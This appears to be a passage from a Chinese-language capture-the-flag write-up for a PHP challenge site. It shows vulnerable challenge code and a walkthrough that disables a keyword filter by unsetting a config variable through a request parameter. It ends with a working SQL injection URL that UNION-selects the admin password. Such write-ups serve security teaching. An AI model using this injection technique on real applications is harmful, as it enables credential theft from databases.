 ```
http://php4fun.sinaapp.com/c3/index.php?id=1.0000000000001

```

challenge 4
-----------

* * *

php code:

```
#GOAL:get password from admin
# $yourInfo=array(
#   'id'    => 1,
#   'name'  => 'admin',
#   'pass'  => 'xxx',
#   'level' => 1
# );
require 'db.inc.php';

$_CONFIG['extraSecure']=true;

//if register globals = on, undo var overwrites
foreach(array('_GET','_POST','_REQUEST','_COOKIE') as $method){
     foreach($$method as $key=>$value){
          unset($$key);
     }
}

$kw = isset($_GET['kw']) ? trim($_GET['kw']) : die('Please enter in a search keyword.');

if($_CONFIG['extraSecure']){
     $kw=preg_replace('#[^a-z0-9_-]#i','',$kw);
}

$query = 'SELECT * FROM messages WHERE message LIKE \'%'.$kw.'%\';';

$result = mysql_query($query);
$row = mysql_fetch_assoc($result);

echo "id: ".$row['id']."</br>";
echo "message: ".$row['message']."</br>";

```

### 攻略：

这段$kw在单引号里，看起来只要能使用单引号就行，所以干掉_CONFIG['extraSecure']就ok，刚好前面画蛇添足的有可利用的变量unset(不然咋通关？)，然后就是联合查询了。

### 所以：

```
http://php4fun.sinaapp.com/c4/index.php?kw='%20and%200%20union%20select%20name,pass%20from%20users%20where%20id=1%23&_CONFIG=aaa

```
